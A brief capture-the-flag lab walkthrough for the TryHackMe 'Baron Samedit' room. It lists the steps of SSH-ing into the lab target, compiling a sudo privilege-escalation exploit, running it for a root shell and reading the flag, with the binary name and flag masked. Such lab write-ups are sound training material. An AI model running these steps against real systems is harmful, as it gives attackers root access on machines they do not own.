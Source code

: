 # Baron Samedit

- Deployed!

	  no answer needed

- After compiling the exploit, what is the name of the executable created (blurred in the screenshots above)?

	- `ssh tryhackme@<TARGET_IP>` and enter the password `tryhackme`
	- `cd Exploit`
	- `make`
	- `sudo-h****************`

- Run the exploit! You should now have a root shell -- what is the flag in /root/flag.txt?

	- `cat /etc/os-release*`
	- `./sudo-h**************** 0`
	- `cd /root`
	- `cat flag.txt`
	- `THM{********************************}`
